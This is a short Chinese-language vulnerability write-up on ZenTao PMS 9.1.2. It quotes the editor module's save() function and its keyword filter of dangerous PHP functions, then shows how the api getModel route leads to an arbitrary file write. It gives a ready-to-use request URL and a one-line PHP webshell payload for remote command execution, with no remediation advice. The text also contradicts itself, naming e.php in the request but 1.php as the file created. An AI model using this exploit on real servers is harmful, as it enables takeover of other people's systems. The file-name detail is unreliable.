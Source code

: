 

这里需要一个找一个文件写入的点，然后调用就可以了，于是可以来到`module/editor/model.php:371`

```php
public function save($filePath)
{
    $fileContent = $this->post->fileContent;
    $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
    $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
    $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
    if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

    $dirPath = dirname($filePath);
    $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
    if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
    if(is_writable($dirPath))
    {
        file_put_contents($filePath, $fileContent);
    }
    else
    {
        die(js::alert($this->lang->editor->notWritable . $extFilePath));
    }
}
```

可以看到这里虽然做了一些简单字符的过滤，但是丝毫不影响写入shell

只要在api处调用这个函数即可任意文件写入，从而getshell

## 漏洞利用

这是一个后台的洞，所以需要登录到后台

之后访问如下url

```url
localhost/zentaopms912/www/index.php
?m=api
&f=getModel
&moduleName=editor&methodName=save
&params=filePath=../e.php
```

POST中传入

```
fileContent=<?php $_POST[_]($_POST[1]);
```

就会在`www`目录下生成1.php文件
